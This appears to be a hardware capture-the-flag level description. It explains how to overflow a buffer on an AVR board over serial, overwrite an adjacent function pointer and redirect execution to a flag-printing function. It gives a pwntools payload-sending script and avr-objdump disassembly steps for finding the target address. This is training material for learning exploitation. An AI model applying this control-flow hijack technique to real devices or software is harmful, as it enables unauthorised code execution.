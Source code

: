 This level requires you to build a ROP-style exploit from a buffer overflow!

Directly adjacent to the buffer that is overflowed is a function pointer that gets called. If you can overwrite the function pointer with the address of another function, you can hijack control flow.

The Hardware CTF needs to be interfaced in a very specific way to receive the buffer. It firsly reads 1 byte and uses this as a size field. It then reads 'size' bytes and copies it into the buffer. Here is an example of how to send a buffer.

```
#!/usr/bin/python3

from pwn import *

io = serialtube('/dev/ttyUSB0', baudrate=9600, convert_newlines = False)

return_address = b"\xc6\x15\xc6\x15\xc6\x15"

line = io.recvuntil("SEND 1 BYTE LENGTH:")
print(line.decode("utf-8"))
io.send(chr(len(return_address)))
line = io.recvuntil("SEND DATA:")
print(line.decode("utf-8"))
io.send(return_address)
line = io.recvuntil("DONE")
print(line.decode("utf-8"))
while True:
    print(io.recvline().decode("utf-8"))
```

In this level, you want to overflow the buffer, overwrite a function pointer and redirect execution to the ROP_print_flag function. This will print the flag for this level.

How do you find the address to use when overwriting the function pointer? Firstly, you will need to install avr-binutils.

```
$ sudo apt-get install binutils-avr
```

Now, disassemble the firmware image (which is an ELF binary).

```
$ avr-objdump -D firmware.elf

..
0000xx8c <_Z14ROP_print_flagv>:
    xx8c:       c0 91 cf 05     lds     r28, 0x05CF     ; 0x8005cf <ser>
    xx90:       d0 91 d0 05     lds     r29, 0x05D0     ; 0x8005d0 <ser+0x1>
    xx94:       87 ed           ldi     r24, 0xD7       ; 215
    xx96:       91 e0           ldi     r25, 0x01       ; 1
    xx98:       0e 94 76 04     call    0x8ec   ; 0x8ec <_ZL5do_dePKcPc.constprop.40>
```

Note, that the symvbol name for ROP_print_flag has been mangled (due to C++ name mangling). But the above symbol represents the correct one.
